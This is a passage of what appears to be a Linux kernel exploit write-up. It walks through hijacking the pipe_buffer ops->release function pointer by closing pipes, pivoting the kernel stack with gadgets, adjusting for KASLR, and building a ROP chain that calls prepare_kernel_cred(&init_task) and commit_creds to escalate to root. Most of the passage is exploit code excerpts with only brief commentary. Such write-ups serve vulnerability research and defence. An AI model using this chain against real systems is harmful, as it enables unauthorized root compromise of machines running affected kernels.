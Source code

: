 - [include/linux/pipe_fs_i.h:pipe_buf_release()](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/include/linux/pipe_fs_i.h?h=linux-6.1.y&id=d2869ace6eeb8ea8a6e70e6904524c5a6456d3fb#n177)
```c
static inline void pipe_buf_release(struct pipe_inode_info *pipe,
				    struct pipe_buffer *buf)
{
	const struct pipe_buf_operations *ops = buf->ops;

	buf->ops = NULL;
	ops->release(pipe, buf);
}
```
- [exploit/extra-refined/exploit.c#L1037](../exploit/extra-refined/exploit.c#L1037)
```c
printf("[+] will start with gadget addr %p\n", curr_gadget->pivot_gadget_cg_1_offset + kaslr_slide);

// and trigger ROP!
for (int i = 0; i < 0x100; i++)
{
	close(pipefd[i][0]);
	close(pipefd[i][1]);
}
```

Then, if we close the pipefd with `close` syscall,  it will trigger RIP control through `ops->release` function pointer and initiate the execution of our ROP payload.

- [exploit/extra-refined/exploit.c#L99](../exploit/extra-refined/exploit.c#L99)
```c
// push rsi ; jmp qword ptr [rsi + 0x39]
uintptr_t pivot_gadget_cg_1_offset;
// pop rsp ; ret
uintptr_t pivot_gadget_cg_2_offset;
```
- [exploit/extra-refined/exploit.c#L976](../exploit/extra-refined/exploit.c#L976)
```c
uintptr_t pipe_buffer_addr = small_msg_msg_addr + 0x400;
*(uintptr_t *)(buf_ptr) = curr_gadget->pivot_gadget_cg_2_offset + kaslr_slide;        // page
*(uintptr_t *)(buf_ptr + 8) = pipe_buffer_addr + 0x50;                                // offset / len
*(uintptr_t *)(buf_ptr + 0x10) = pipe_buffer_addr + 0x18;                             // ops
*(uintptr_t *)(buf_ptr + 0x20) = curr_gadget->pivot_gadget_cg_1_offset + kaslr_slide; // ops->release

*(uintptr_t *)(buf_ptr + 0x39) = curr_gadget->pivot_gadget_cg_2_offset + kaslr_slide;
```
For fake `ops` and stack pivot, we use the current chunk's address as `ops` and store pivot gadgets' address as a fake function. Since the current chunk address is passed by `rsi` register, we used the above pivot gadgets to pivot the kernel stack to the current chunk.

- [exploit/extra-refined/exploit.c#L984](../exploit/extra-refined/exploit.c#L984)
```c
// ...and write the ROP payload
uintptr_t *gadget_start = (uintptr_t *)(buf_ptr + 0x50);
int idx = 0;
// rax = prepare_kernel_cred(&init_task);
gadget_start[idx++] = curr_gadget->pop_rdi_ret_offset + kaslr_slide;
gadget_start[idx++] = curr_gadget->init_task_offset + kaslr_slide;
gadget_start[idx++] = curr_gadget->prepare_kernel_cred_offset + kaslr_slide;

// commit_creds(rax);
gadget_start[idx++] = curr_gadget->pop_rsi_ret_offset + kaslr_slide;
gadget_start[idx++] = pipe_buffer_addr + 0x200 + 0x7f;
gadget_start[idx++] = curr_gadget->push_rax_jmp_qptr_rsi_7f_offset + kaslr_slide;
gadget_start[idx++] = curr_gadget->commit_creds_offset + kaslr_slide;
```